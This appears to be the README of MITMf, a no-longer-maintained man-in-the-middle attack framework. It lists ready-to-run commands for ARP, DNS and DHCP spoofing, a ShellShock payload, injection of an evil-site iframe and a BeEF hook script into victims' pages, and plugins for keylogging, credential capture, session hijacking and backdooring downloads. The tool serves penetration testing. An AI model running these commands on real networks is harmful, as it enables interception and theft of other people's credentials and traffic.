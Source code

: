 ●●●●●●![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
![Latest Version](https://img.shields.io/badge/mitmf-0.9.8%20--%20The%20Dark%20Side-red.svg)
![Supported OS](https://img.shields.io/badge/Supported%20OS-Linux-yellow.svg)
[![Code Climate](https://codeclimate.com/github/byt3bl33d3r/MITMf/badges/gpa.svg)](https://codeclimate.com/github/byt3bl33d3r/MITMf)
[![Build Status](https://travis-ci.org/byt3bl33d3r/MITMf.svg)](https://travis-ci.org/byt3bl33d3r/MITMf)
[![Coverage Status](https://coveralls.io/repos/byt3bl33d3r/MITMf/badge.svg?branch=master&service=github)](https://coveralls.io/github/byt3bl33d3r/MITMf?branch=master)

# MITMf

Framework for Man-In-The-Middle attacks. \
Better than manually used tools Ettercap, arpspoof, dnsspoof, ...etc. Baically will automate the process.

**This project is no longer being updated. MITMf was written to address the need, at the time, of a modern tool for performing Man-In-The-Middle attacks. Since then many other tools have been created to fill this space, you should probably be using [Bettercap](https://github.com/bettercap/bettercap) as it is far more feature complete and better maintained.**

Quick tutorials, examples and developer updates at: https://byt3bl33d3r.github.io

This tool is based on [sergio-proxy](https://github.com/supernothing/sergio-proxy) and is an attempt to revive and update the project.

Contact me at:
- Twitter: @byt3bl33d3r
- IRC on Freenode: #MITMf
- Email: byt3bl33d3r@protonmail.com

**Before submitting issues, please read the relevant [section](https://github.com/byt3bl33d3r/MITMf/wiki/Reporting-a-bug) in the wiki .**

Installation
============

Please refer to the wiki for [installation instructions](https://github.com/byt3bl33d3r/MITMf/wiki/Installation)

Description
============
MITMf aims to provide a one-stop-shop for Man-In-The-Middle and network attacks while updating and improving
existing attacks and techniques.

Originally built to address the significant shortcomings of other tools (e.g Ettercap, Mallory), it's been almost completely 
re-written from scratch to provide a modular and easily extendible framework that anyone can use to implement their own MITM attack.

Features:-
========

- The framework contains a built-in SMB, HTTP and DNS server that can be controlled and used by the various plugins, it also contains a modified version of the SSLStrip proxy that allows for HTTP modification and a partial HSTS bypass.

- As of version 0.9.8, MITMf supports active packet filtering and manipulation (basically what etterfilters did, only better),
allowing users to modify any type of traffic or protocol.

- The configuration file can be edited on-the-fly while MITMf is running, the changes will be passed down through the framework: this allows you to tweak settings of plugins and servers while performing an attack.

- MITMf will capture FTP, IRC, POP, IMAP, Telnet, SMTP, SNMP (community strings), NTLMv1/v2 (all supported protocols like HTTP, SMB, LDAP etc.) and Kerberos credentials by using [Net-Creds](https://github.com/DanMcInerney/net-creds), which is run on startup.

- [Responder](https://github.com/SpiderLabs/Responder) integration allows for LLMNR, NBT-NS and MDNS poisoning and WPAD rogue server support.

Active packet filtering/modification
====================================

You can now modify any packet/protocol that gets intercepted by MITMf using Scapy! (no more etterfilters! yay!)

For example, here's a stupid little filter that just changes the destination IP address of ICMP packets:

```python
if packet.haslayer(ICMP):
	log.info('Got an ICMP packet!')
	packet.dst = '192.168.1.0'
```

- Use the ```packet``` variable to access the packet in a Scapy compatible format
- Use the ```data``` variable to access the raw packet data

Now to use the filter all we need to do is: ```python mitmf.py -F ~/filter.py```

You will probably want to combine that with the **Spoof** plugin to actually intercept packets from someone else ;)

**Note**: you can modify filters on-the-fly without restarting MITMf! 

Examples
========

The most basic usage, starts the HTTP proxy SMB,DNS,HTTP servers and Net-Creds on interface enp3s0:

```python mitmf.py -i enp3s0```

ARP poison the whole subnet with the gateway at 192.168.1.1 using the **Spoof** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1```

Same as above + a WPAD rogue proxy server using the **Responder** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --responder --wpad```

ARP poison 192.168.1.16-45 and 192.168.0.1/24 with the gateway at 192.168.1.1:

```python mitmf.py -i enp3s0 --spoof --arp --target 192.168.2.16-45,192.168.0.1/24 --gateway 192.168.1.1```

Enable DNS spoofing while ARP poisoning (Domains to spoof are pulled from the config file):

```python mitmf.py -i enp3s0 --spoof --dns --arp --target 192.168.1.0/24 --gateway 192.168.1.1```

Enable LLMNR/NBTNS/MDNS spoofing:

```python mitmf.py -i enp3s0 --responder --wredir --nbtns```

Enable DHCP spoofing (the ip pool and subnet are pulled from the config file):

```python mitmf.py -i enp3s0 --spoof --dhcp```

Same as above with a ShellShock payload that will be executed if any client is vulnerable:

```python mitmf.py -i enp3s0 --spoof --dhcp --shellshock 'echo 0wn3d'```

Inject an HTML IFrame using the **Inject** plugin:

```python mitmf.py -i enp3s0 --inject --html-url http://some-evil-website.com```

Inject a JS script:

```python mitmf.py -i enp3s0 --inject --js-url http://beef:3000/hook.js```

Start a captive portal that redirects everything to http://SERVER/PATH:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portalurl http://SERVER/PATH```

Start captive portal at http://your-ip/portal.html using default page /portal.html (thx responder) and /CaptiveClient.exe (not included) from the config/captive folder:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive```

Same as above but with hostname captive.portal instead of IP (requires captive.portal to resolve to your IP, e.g. via DNS spoof):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --use-dns```

Serve a captive portal with an additional SimpleHTTPServer instance serving the LOCALDIR at http://IP:8080 (change port in mitmf.config):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portaldir LOCALDIR```

Same as above but with hostname:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --portaldir LOCALDIR --use-dns```

And much much more! 

Of course you can mix and match almost any plugin together (e.g. ARP spoof + inject + Responder etc..)

For a complete list of available options, just run ```python mitmf.py --help```

# Currently available plugins

- **HTA Drive-By**     : Injects a fake update notification and prompts clients to download an HTA application
- **SMBTrap**          : Exploits the 'SMB Trap' vulnerability on connected clients
- **ScreenShotter**    : Uses HTML5 Canvas to render an accurate screenshot of a clients browser
- **Responder**        : LLMNR, NBT-NS, WPAD and MDNS poisoner
- **SSLstrip+**        : Partially bypass HSTS
- **Spoof**            : Redirect traffic using ARP, ICMP, DHCP or DNS spoofing
- **BeEFAutorun**      : Autoruns BeEF modules based on a client's OS or browser type
- **AppCachePoison**   : Performs HTML5 App-Cache poisoning attacks 
- **Ferret-NG**        : Transparently hijacks client sessions
- **BrowserProfiler**  : Attempts to enumerate all browser plugins of connected clients
- **FilePwn**          : Backdoor executables sent over HTTP using the Backdoor Factory and BDFProxy
- **Inject**           : Inject arbitrary content into HTML content
- **BrowserSniper**    : Performs drive-by attacks on clients with out-of-date browser plugins
- **JSkeylogger**      : Injects a Javascript keylogger into a client's webpages
- **Replace**          : Replace arbitrary content in HTML content
- **SMBAuth**          : Evoke SMB challenge-response authentication attempts
- **Upsidedownternet** : Flips images 180 degrees
- **Captive**          : Creates a captive portal, redirecting HTTP requests using 302

# How to fund my tea & sushi reserve

BTC: 1ER8rRE6NTZ7RHN88zc6JY87LvtyuRUJGU

ETH: 0x91d9aDCf8B91f55BCBF0841616A01BeE551E90ee

LTC: LLMa2bsvXbgBGnnBwiXYazsj7Uz6zRe4fr

